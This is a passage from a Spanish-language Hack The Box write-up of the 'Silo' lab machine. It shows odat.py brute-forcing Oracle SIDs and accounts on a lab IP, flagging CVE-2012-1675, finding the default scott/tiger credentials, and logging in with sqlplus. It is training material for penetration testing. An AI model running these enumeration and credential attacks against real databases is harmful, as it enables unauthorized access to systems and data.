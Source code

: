 * `sqlplus`, que nos servirá para conectarnos a la base de datos desde la consola.
* Que `odat.py` se ejecute sin problemas :)

> Si la guia inicial es confusa o cualquier cosa :P Les [paso otra que encontre un poco más detallada](https://dastinia.io/tutorial/2018/07/31/installing-oracle-database-attacking-tool-on-kali/) :)

Entonces, si nos dirigimos a la [Wiki](https://github.com/quentinhardy/odat/wiki) de `odat.py`, vemos como hacer fuerza bruta para encontrar usuarios basados en los **SID**:

![131google_odatWiki_usagewithSID](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/silo/131google_odatWiki_usagewithSID.png)

Probando con cada uno, el único que nos da resultado es el **SID -> XE**:

```bash
❭ python3 odat.py all -s 10.10.10.82 -p 1521 -d XE
[+] Checking if target 10.10.10.82:1521 is well configured for a connection...
[+] According to a test, the TNS listener 10.10.10.82:1521 is well configured. Continue...

[1] (10.10.10.82:1521): Is it vulnerable to TNS poisoning (CVE-2012-1675)?
[+] The target is vulnerable to a remote TNS poisoning

[2] (10.10.10.82:1521): Searching valid accounts on the XE SID
...
[+] Valid credentials found: scott/tiger. Continue...
...
```

Opa, vemos 2 cositas interesantísimas:

* Nos detecta que el servicio es vulnerable a un **CVE** llamado **CVE-2012-1675**, ya veremos de que trata.
* Encuentra credenciales válidas: usuario:`scott` con contraseña:`tiger`

Antes de profundizar en el **CVE** y ver si lo podemos explotar, veamos si las credenciales son válidas, nos apoyamos de la utilidad que instalamos antes, `sqlplus`:

```bash
❭ ./sqlplus scott/tiger@10.10.10.82/XE;

SQL*Plus: Release 21.0.0.0.0 - Production on Mon Apr 19 25:25:25 2021
Version 21.1.0.0.0

Copyright (c) 1982, 2020, Oracle.  All rights reserved.

ERROR:
ORA-28002: the password will expire within 7 days


Connected to:
Oracle Database 11g Express Edition Release 11.2.0.2.0 - 64bit Production

SQL> 
```
